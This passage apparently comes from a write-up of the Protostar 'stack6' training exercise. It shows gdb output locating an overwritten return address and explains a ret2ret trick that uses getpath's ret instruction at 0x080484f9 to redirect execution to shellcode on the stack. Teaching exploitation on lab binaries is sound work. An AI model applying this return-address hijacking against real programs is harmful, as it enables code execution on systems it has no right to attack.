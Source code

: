 ``` shell
user@protostar:~$ python script.py > /tmp/exp
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) disassemble getpath
Dump of assembler code for function getpath:
.....
0x080484f9 <getpath+117>:       ret
End of assembler dump.
(gdb) break *0x080484f9
Breakpoint 1 at 0x80484f9: file stack6/stack6.c, line 23.
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/1i $eip
>x/8wx $esp
>end
(gdb) r < /tmp/exp
Starting program: /opt/protostar/bin/stack6 < /tmp/exp
input path please: got path AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPUUUURRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ
0x80484f9 <getpath+117>:        ret
0xbffff79c:     0x55555555      0x56565656      0x57575757      0x58585858
0xbffff7ac:     0x59595959      0x5a5a5a5a      0xbffff800      0xbffff85c

Breakpoint 1, 0x080484f9 in getpath () at stack6/stack6.c:23
.....
```

From this, I can see that the return address has been replaced with **0x55555555**, where **0x55** corresponds to the character 'U'. This means our padding ranges from 'A' to 'T'.

Now, I will overwrite **0x55555555** (the return address) with the address of the ret instruction inside the getpath function, which is **0x080484f9**.

This trick makes the program execute the **ret** instruction twice. The ***first ret*** jumps to our chosen ret instruction, and ***the second ret*** allows us to return to an address on the stack. 

Here is a clearer representation:

``` shell

1. BEFORE OVERWRITING THE RETURN ADDRESS

[ Buffer Overflow Happens ]
------------------------------------------------------
| AAAA....TTTT  |  0x55555555  |  Old EBP  |  Ret Addr |
------------------------------------------------------
                             ▲
                             └── This is where we overwrite


2. OVERWRITING THE RETURN ADDRESS WITH 0x080484f9  

------------------------------------------------------
| AAAA....TTTT  |  0x080484f9  |  STACK_ADDR  |  Ret Addr |
------------------------------------------------------
                             ▲
                             └── First ret executes, popping 0x080484f9 from the stack
                          

3. THE SECOND RET

------------------------------------------------------
| AAAA....TTTT  |  0x080484f9  |  STACK_ADDR  |  SHELLCODE_ADDR |
------------------------------------------------------
                                            ▲
```